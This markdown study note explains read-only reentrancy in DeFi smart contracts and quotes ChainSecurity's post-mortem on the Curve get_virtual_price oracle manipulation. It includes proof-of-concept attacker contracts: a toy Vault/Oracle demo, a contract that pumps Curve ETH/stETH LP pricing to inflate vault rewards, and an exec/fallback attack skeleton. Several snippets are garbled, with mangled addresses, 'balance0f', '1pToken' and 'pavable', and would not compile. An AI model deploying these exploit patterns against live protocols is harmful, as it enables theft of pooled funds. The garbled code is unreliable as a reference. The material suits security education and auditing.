

# Read-only Reentrancy

> from https://twitter.com/bytes032/status/1616357019522400256?s=20 and 
> https://github.com/coinspect/learn-evm-attacks/blob/82addccc06ca2e0a1bc399078e127ba96b32a322/test/Reentrancy/ReadOnlyReentrancy/ReadOnlyReentrancy.attack.sol

* Classical reentrancy exploits occur in state-modifying functions, leading to inconsistent state usage for malicious storage writes. To mitigate this, contracts often implement reentrancy locks to protect the state.

* In contrast, the read-only reentrancy is a reentrancy scenario where a view function is reentered, which in most cases is unguarded as it does not modify the contract’s state. However, if the state is inconsistent, wrong values could be reported.

* As In result, other protocols blindly relying on a return value (e.g. from Oracles or Price Feeds) can be tricked into reading the wrong state to perform unwanted actions.

* So far, we know only about two exploits using this vulnerability, both in LPs interacting w/ certain Curve Pools. The storyline is pretty much the same. An attacker manipulates the collateral price, borrows all the funds from the pool, and walks away with bad debts.

* To simplify, that's what happened in four steps in both cases.
1. Deposit large amounts of liquidity.
2. Remove liquidity. (that triggers a callback)
3. During the callback, the attacker performs malicious actions.
4. Profit.

* Reentrancy occurs during step 3, when balances still need to be fully updated while total LP token supply decreases. Achieved by compromising Curve's Oracle's price feed and borrowing funds at an inflated price.

* ChainSecurity made a great analysis which identified other pools potentially vulnerable to read-only reentrancy

 * Tokens with callbacks to the recipient (e.g. some ERC-677 tokens, ERC-777 tokens). For these, it was possible to pump the price.
 * Token with callback to the sender (e.g. ERC-777 tokens). Even though the attack vector here is different, the attack is quite similar, with the difference that the callback is made when adding liquidity and that the price of the LP token can be dumped.
 * To simplify it, one could say that an attacker's contract calls contract A that performs a call open to be hooked (by an ERC777s, ERC1155 or regular ether transfers).

* Talk is cheap. Show me the code. Let's walk through it. 

```
// SPDX-License-Identifier: Unlicense
pragma solidity ^0.8.13;

import "@openzeppelin/contracts/token/ERC20/ERC20.sol";
import "@openzeppelin/contracts/token/ERC20/extensions/ERC20Burnable.sol";
import "@openzeppelin/contracts/security/ReentrancyGuard.sol";
import "forge-std/console.sol";
import "forge-std/Test.sol";

contract ReadOnlyReentrancy is Test {
    Vault private vault;
    Attacker private attacker;
    Oracle private oracle;
    address alice = address(0x69);

    function setUp() external {
        vault = new Vault();
        oracle = new Oracle(address(vault));
        attacker = new Attacker(address(vault), address(oracle));

        vm.deal(address(attacker), 10 ether);
        vm.deal(alice, 5 ether);
    }

    function testAttack() public {
        vm.prank(alice);
        vault.deposit{value: 5 ether}();

        attacker.attack();
    }
}

contract Attacker {
    Vault private vault;
    Oracle private oracle;

    constructor(address _vaultAddress, address _oracleAddress) {
        vault = Vault(_vaultAddress);
        oracle = Oracle(_oracleAddress);
    }

    function attack() public {
        console.log("Price before deposit", oracle.getPrice());
        // Deposit to pump the price
        vault.deposit{value: 5 ether}();
        // Withdraw in order to trigger receive fallback
        vault.withdraw();
        console.log("Price after deposit", oracle.getPrice());
    }

    receive() external payable {
        // Perform malicious actions with pumped price
        console.log("Price during deposit", oracle.getPrice());
    }
}

contract Oracle {
    Vault private vault;

    constructor(address _vault) {
        vault = Vault(_vault);
    }

    function getPrice() public view returns (uint256) {
        return (vault.totalLocked() / 1e18) / 2;
    }
}

contract Vault is ReentrancyGuard {
    mapping(address => uint256) public userLocked;
    uint256 public totalLocked;

    function deposit() external payable {
        userLocked[msg.sender] += msg.value;
        totalLocked += msg.value;
    }

    function withdraw() external nonReentrant {
        require(userLocked[msg.sender] > 0);
        require(address(this).balance >= userLocked[msg.sender]);

        (bool success, ) = payable(msg.sender).call{
            value: userLocked[msg.sender]
        }("");

        require(success);
        totalLocked -= userLocked[msg.sender];
        userLocked[msg.sender] = 0;
    }
}
```

* The Vault. It lets you deposit some money; if you need them back, you can withdraw them.

```
contract Vault is ReentrancyGuard {
    mapping(address => uint256) public userLocked;
    uint256 public totalLocked;

    function deposit() external payable {
        userLocked[msg.sender] += msg.value;
        totalLocked += msg.value;
    }

    function withdraw() external nonReentrant {
        require(userLocked[msg.sender] > 0);
        require(address(this).balance >= userLocked[msg.sender]);

        (bool success, ) = payable(msg.sender).call{
            value: userLocked[msg.sender]
        }("");

        require(success);
        totalLocked -= userLocked[msg.sender];
        userLocked[msg.sender] = 0;
    }
}
```

* The Oracle. Nothing fancy here, it calculates a price based on the total amount of ether locked in the vault.

```
contract Oracle {
    Vault private vault;

    constructor(address _vault) {
        vault = Vault(_vault);
    }

    function getPrice() public view returns (uint256) {
        return (vault.totalLocked() / 1e18) / 2;
    }
}
```

* Here comes the trick. When somebody withdraws from the wallet, `totalLocked` would not be updated by the call that was made. Hence the Oracle is reading the Vault's older value (yet not updated).

```
contract Attacker {
    Vault private vault;
    Oracle private oracle;

    constructor(address _vaultAddress, address _oracleAddress) {
        vault = Vault(_vaultAddress);
        oracle = Oracle(_oracleAddress);
    }

    function attack() public {
        console.log("Price before deposit", oracle.getPrice());
        // Deposit to pump the price
        vault.deposit{value: 5 ether}();
        // Withdraw in order to trigger receive fallback
        vault.withdraw();
        console.log("Price after deposit", oracle.getPrice());
    }

    receive() external payable {
        // Perform malicious actions with pumped price
        console.log("Price during deposit", oracle.getPrice());
    }
}
```

* The result is, that DURING the receive callback the price is pumped and anybody blindly trusting the `getPrice()` would get a manipulated price. Running the test proves that.


* Now, lets walk through a more sophisticated example.

* Like in the previous example, we have a Vault again. This time though, you can not only stake and unstake, but you can redeem rewards. The reward formula heavily depends on the `get_virtual_price()` function of the pool. That's where it gets interesting.

```
contract StakingVault {
    // Curve ETH/stETH StableSwap Pool
    Curve private constant pool = ICurve(0×DC24316b9A028F1497c275EB9192a3Ea0f67022);

    // Curve LP Token
    IERC20 public constant token = IERC20(0×06325440D01439736583c165C2963BA99fAf14E);

    mapping(address = uint) public balanceof;

    function stake(uint amount) external {
        token.transferFrom(msg.sender, address (this), amount) ;
        balance0f [msg.sender] += amount;
    }

    function unstake(uint amount) external {
        balance0f [msg.sender] -= amount;
        token.transfer(msg. sender, amount);
    }

    function redeemRewards() external view returns (uint) {
        uint reward = (balance0f [msg.sender] * pool.get_ virtual_price( )) / 1e18;
        // Omitting code to transfer reward tokens return reward:
    }
}

```

* Lets dig deeper into `get_virtual_price()` from Curve's ETH/stETH StableSwap Pool. As we can see, it heavily depends on the current token supply.

```
@view 
@external
def get virtual price () -> uint256:
    """
    @notice The current virtual price of the pool LP token 
    @dev Useful for calculating profits
    @return LP token virtual price normalized to le18
    """

    D: uint256 = self.get D(self. balances (), self._A() )
    # D is in the units similar to DAI (e.g. converted to precision 1e18)
    # When balanced, D = n * × u - total virtual value of the portfolio
    
    token_supply: uint256 = ERC20(self. 1p_token).total,Supply () 
    return D * PRECISION / token_supply
```

* Can you see it coming? Yes? Okay, we're on the finale. Let's see the potential attack vector. Let's look at the AttackerContract.

```
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.17;

import "forge-std/Test.sol";
import { TestHarness } from "../../TestHarness.sol";
import { IERC20 } from "../../interfaces/IERC20.sol";
import { ICurve } from "../../utils/ICurve.sol";

// Curve ETH/stETH StableSwap Pool
address const STETH_POOL = 0xDC24316b9AE028F1497c275EB9192a3Ea0f67022;

// Curve LP Token
address const LP = 0x06325440D014e39736583c165C2963BA99fAf14E;

Contract AttacKercontract is TestHarness {
    ICurve private constant pool = ICurve(STETH POOL);
    IERC20 public constant InToken = IERC20 (LP):
    Stakingvault private immutable vault;

    constructor(address _target) {
        vault = StakingVault(_target);
    }

    receive () external pavable {
        emit log_named_decimal_uint(
            "get_virtual_price() during the removal of LP tokens",
            pool.get_virtual_price(),
            18
        );
        // This is where read-only re-entrance happens
        // Target's balances are not fully updated
        // While the total supply of the LP token had already decreased

        uint reward = vault.redeemRewards();
        emit log_named_decimal_uint("reward",reward,18);
    }

    function prepareAttack() external payable {
        uint [2] memory amounts = [msg. value, 0];
        uint lp = pool.add_liquidity{value: msg.value}(amounts, 1);
        1pToken. approve( address (vault) , 1p);
        vault. stake(lp);
    }

    function attack() external payable {
        // Add liquidity
        uint[2] memory amounts = [msg.value, 0];
        uint lp = pool.add_liquidity{value: msg.value}(amounts, 1);
        // Log get_virtual_price
        emit log_named_decimal_uint(
            "get_virtual_price() before the removal of LP tokens",
            pool.get_virtual_price(),
            18
        );

        // remove liquidity
        uint[2] memory min_amounts = [uint(0), uint(0)];
        pool.remove_liquidity(lp, min_amounts);

        // Log get_virtual_price
        emit log_named_decimal_uint(
            "get_virtual_price() after the removal of LP tokens",
            pool.get_virtual_price(),
            18
        );

        // Attack - Log reward amount
        uint reward = vault.redeemRewards();
        emit log_named_decimal_uint("reward", reward, 18) 
    }
}
```

* Note that the attacker is using two external functions in `beforeAttack()` and `attack()` from Curve's ETH/stETH StableSwap pool, respectively:
1. pool.add_liquidity() 
2. pool.remove_liquidity()

Let's dig deeper.

https://etherscan.io/address/0xDC24316b9AE028F1497c275EB9192a3Ea0f67022#code

* `pool.add_Liquidity()` The purpose of the function is to exchange your coins for freshly *MINTED* LP tokens. As a result, that increases the balances of the pool for the specific token BUT also INCREASES the total supply. It returns you the amount of LP tokens minted.

* `pool.removeLiquidity`. It's basically the reverse of add liquidity. You burn your LP tokens and in exchange you get back the underlying coins to receive. You're getting your tokens back through a low level call. What does a low level call trigger? A fallback. Sounds familiar?

* Now lets apply the knowledge we have
1. Add liquidity, receive LP, stake that LP in the vault.
1. Add ENORMOUS amount of liquidity to PUMP the price
2. Then remove liquidity. (that triggers a callback)
3. During the callback, redeem rewards with the PUMPED price
4. 💵💵💵

* Here's how it happens in practice. The attacker "prepares" the attack with the `prepareAttack` function by staking the stETH received in exchange for 10 ether. This means now he can redeem rewards. (Note: ommited some code for simplicity)

```
function prepareAttack() external payable {
    uint [2] memory amounts = [msg. value, 0];
    uint lp = pool.add_liquidity{value: msg.value}(amounts, 1);
    1pToken. approve( address (vault) , 1p);
    vault. stake(lp);
}
```

* Then, the attacker attacks by adds liquidity again PUMPING the amount `get_virtual_price()` will return, receives some stETH, but then immediately burns it and the pool sends him his money back through low level call. This triggers a fallback.

```
function attack() external payable {
    uint[2] memory amounts = [msg.value, 0];
    uint lp = pool.add_liquidity{value: msg.value}(amounts, 1);

    uint[2] memory min_amounts = [uint(0), uint(0)];
    pool.remove_liquidity(lp, min_amounts);
}
```

* Because the totalSupply is not updated yet, now in the fallback the `get_virtual_price()` view function will return the PUMPED price. (stale value) As a result, the attacker is redeeming rewards at higher price than he should, due to the vault relying blindly on the price feed

```
receive () external pavable {
    uint reward = vault.redeemRewards();
}
```

* Test output




### Curve LP Oracle Manipulation: Post Mortem

> From https://chainsecurity.com/curve-lp-oracle-manipulation-post-mortem/

On April 14, we informed Curve and affected projects about a read-only reentrancy vulnerability in some Curve pools. More specifically, the value of function get_virtual_price can be manipulated by reentering it during the removal of liquidity. Now, since all teams secured their projects, we are happy to share the technical details.

#### Background
Curve is an automated market maker (AMM). These allow users to trade against a liquidity pool that is funded by liquidity providers (LPs) who in turn collect fees on the trades. Similar to other DeFi projects, Curve wraps this funding in a yield-bearing wrapper asset, a so-called LP token, which represents a share in a liquidity pool. When shares are redeemed, users receive the underlying assets proportionally. Curve v1 innovated AMMs for pegged assets (e.g. USDC/DAI/USDT or ETH/stETH) with their stable swap pools. These pools allow swapping assets that are valued roughly the same with low slippage according to the stable swap invariant described in the [Curve stable swap paper](https://classic.curve.fi/files/stableswap-paper.pdf).

Smart contracts integrating with Curve as LPs will typically hold pool tokens. An example of such a potential integration could be a lending protocol supporting the pool tokens as collateral to improve capital-efficiency in DeFi. Depending on the integration type, the LP tokens will require pricing mechanisms to allow smart contracts to correctly evaluate the value held. LPs are generally priced by computing the underlying tokens per share, hence dividing the total underlying token amounts by the total supply of the LP token. Given that the underlying assets in Curve’s stable swap are pegged to each other, the invariant’s D value can be computed to estimate the total value of the underlying tokens (under the assumption that all are priced equally).

Dividing `D` with the total supply provides a reliable oracle for stable swap LPs. The `get_virtual_price` function implements this logic. That functionality can be, for example, used to estimate fee growth or estimate the value of LP tokens. Given that for LP tokens, the ratio of the total underlying value and the total supply can only grow (fee mechanism), the invariant that the virtual price’s value can only increase over time shall hold.

However, through read-only reentrancy, it is possible to break this invariant by temporarily creating inconsistencies between `D` and the total LP token supply. By leveraging this, price feeds of several protocols such as MakerDAO, Enzyme, Abracadbra, TribeDAO, and Opyn were vulnerable to manipulations.

#### Read-Only Reentrancy
The classical examples of reentrancy typically reenter in a state-modifying function so that an inconsistent state is used to perform malicious writes on the contract’s storage. Typically, contracts guard themselves with reentrancy locks, protecting their state from such malicious actions. In contrast, the read-only reentrancy is a reentrancy scenario where a view function is reentered which in most cases is unguarded as it does not modify the contract’s state. However, if the state is inconsistent, wrong values could be reported. Other protocols relying on a return value, can be tricked into reading the wrong state to perform unwanted actions.

#### Vulnerability Analysis
While it requires some preparation, the attack vector starts in the `remove_liquidity` function of Curve stable swap pools (we will illustrate that with code of the ETH/stETH pool). Note that the Curve pool protects itself from reentrancy by using the Vyper-native reentrancy guards which were placed on every state-altering function.

```
@external
@nonreentrant('lock')
def remove_liquidity(
    ...
```

The function initially queries the underlying balances and the LP token contract’s total supply

```
amounts: uint256[N_COINS] = self._balances()
lp_token: address = self.lp_token
total_supply: uint256 = ERC20(lp_token).totalSupply()
``` 

where the balances are the current balances held with some admin fees deducted.

```
@view
@internal
def _balances(_value: uint256 = 0) -> uint256[N_COINS]:
    return [
        self.balance - self.admin_balances[0] - _value,
        ERC20(self.coins[1]).balanceOf(self) - self.admin_balances[1]
    ]
```

Next, the tokens are burned and hence the supply is decreased.

```
CurveToken(lp_token).burnFrom(msg.sender, _amount)  # dev: insufficient funds 
```


The LP token contract’s burnFrom function is a standard burning function that decreases the balance of the user and the total supply according to the amount of LP tokens burned by the user. Last, the underlying tokens are returned to the user.

```
for i in range(N_COINS):
        value: uint256 = amounts[i] * _amount / total_supply
        assert value >= _min_amounts[i], "Withdrawal resulted in fewer coins than expected"amounts[i] = value
        if i == 0:
            raw_call(msg.sender, b"", value=value)
        else:
            assert ERC20(self.coins[1]).transfer(msg.sender, value)log RemoveLiquidity(msg.sender, amounts, empty(uint256[N_COINS]), total_supply - _amount)return amounts
```

Per underlying, the share of the burned LP tokens is computed, checked against slippage, and sent out. At this point, the function interacts with non-Curve contracts which creates the danger of losing control of the execution. If an underlying token is ETH, native ETH is sent out which, if the recipient is a contract, triggers the recipient’s fallback function.

```
raw_call(msg.sender, b"", value=value)
```

During the execution of the fallback, not all tokens have been sent (balances not fully updated) while the total supply of the LP token has already decreased. Hence, an attacker can take control of the execution flow while the pool’s state is inconsistent. Pool balances and total supply do not match. Note that the function `remove_liquidity_imbalance` is similar to `remove_liquidity` but allows users to withdraw liquidity in an imbalanced way. Hence, if an imbalanced withdrawal taking just `1 wei` of ETH is made, the balance will be significantly higher than with the regular `remove_liquidity`. Hence, the inconistency can be amplified.

That is when and why `get_virtual_price` becomes vulnerable.

```
@view
@external
def get_virtual_price() -> uint256:
    """
    @notice The current virtual price of the pool LP token
    @dev Useful for calculating profits
    @return LP token virtual price normalized to 1e18
    """
    D: uint256 = self.get_D(self._balances(), self._A())
    # D is in the units similar to DAI (e.g. converted to precision 1e18)
    # When balanced, D = n * x_u - total virtual value of the portfolio
    token_supply: uint256 = ERC20(self.lp_token).totalSupply()
    return D * PRECISION / token_supply
``` 

Important to note is that no reentrancy guard is placed on the function. Hence, it can be called at any time. When called, it first computes `D` based on the current balances held by the contract and according to the stable swap invariant. Remember that `D` represents the total underlying value. Then, it queries the LP token’s total supply and computes the ratio of D and the total supply to provide the exchange rate from LP to the pegged asset. Since the balances and the total supply are inconsistent, D and the total supply will be inconsistent, too, due to D being the result of a computation based on the balances. Note that once the removal of liquidity is finished, the balances will again match the total supply and, thus, the virtual price will drop back to the normal. Ultimately, that breaks the invariant of the virtual price solely increasing.

Protocols integrating with `get_virtual_price` were trusting the return value blindly. Typically, its return value was used to estimate a lower bound for the LP’s value by multiplying it with the lowest exchange rate of the underlying tokens.

```
// sample code
uint256 lowestPrice = type(uint256).max;
for (uint256 i = 0; i < N_COINS; i++) {
    price = oracle.price(pool.coins(i));
    lowestPrice = price < lowestPrice ? price : lowestPrice;
}
value = lowestPrice * pool.get_virtual_price() / 10**18;
``` 

Now that we understand the concepts of the manipulation, we can create an attacking contract. The rough procedure of the attack is:

1. Deposit large amounts of liquidity.
1. Remove liquidity.
1. During the callback perform malicious actions.
1. Profit.

This process can be implemented as a smart contract as below. Note that the snippet implements the weaker but simpler version using `remove_liqudity` instead of `remove_liquidity_imbalance`. For some projects, however, some optimization can be performed.

```
// pool is assumed to be an ETH pool with just one other token (e.g. stETH pool)
function exec(uint amountToken, uint percentRedeem) public payable {
    // prepare token
    token.transferFrom(msg.sender, address(this), amountToken);
    token.approve(address(pool), amountToken);    // add liquidity
    uint[2] memory amounts = [msg.value, amountToken];
    uint lps = pool.add_liquidity{value : msg.value}(amounts, 0);
    uint lps_redeem = lps * percent / 100;    // remove liqudity
    uint[2] memory zeros = [uint(0), 0];
    pool.remove_liquidity(lps_redeem, zeros);    // virtual price dropped
}

fallback() external payable {
    // price of LP is pumped right now
    // malicious actions, use the remaining balance of lps if needed ...
}
```

The effects depended on the project’s setup (e.g. oracle, collateralization ratio, …) and, more importantly, on the liquidity locked in the pool contract. For example, the ETH/stETH pool’s LP token price was realistically manipulatable by a factor of two while others were arbitrarily manipulatable. However, even the factor of two was sufficient to put more than a hundred million dollars at risk.

#### Other pools
The pools that were integrated with the most were pools with ETH as an underlying, especially the ETH/stETH pool. However, we identified other pools vulnerable to the read-only reentrancy.

* Tokens with callbacks to the recipient (e.g. some ERC-677 tokens, ERC-777 tokens). For these, it was possible to pump the price.
* Token with callback to the sender (e.g. ERC-777 tokens). Even though the attack vector here is different, the attack is quite similar, with the difference that the callback is made during add_liquidity and that the price of the LP token can be dumped.

#### Fixing price feeds
Since reentrancy locks were not publicly viewable by smart contracts, the reentrancy lock had to be triggered differently— by calling a state-altering function. The criteria for such a function were not to transfer funds from or to oracles and to be relatively cheap in terms of gas overhead. The solution identified most suitable was calling the pools’ `withdraw_admin_fees` function to trigger the reentrancy lock. Most protocols followed that protection pattern.

#### Future solution
When developing smart contracts, integrations should be taken into account. Even though the future is unforeseeable, some protection mechanisms could help in any case. In general, think about view functions the same way as you do with state-modifying functions. Prevent reentrancy issues. For example, if reentrancy locks are already used, several solutions may be helpful for external projects’ security:

* Make the reentrancy locks public to allow developers to decide whether or not they want to revert in case the lock is active.
* Revert in view function if the lock is active.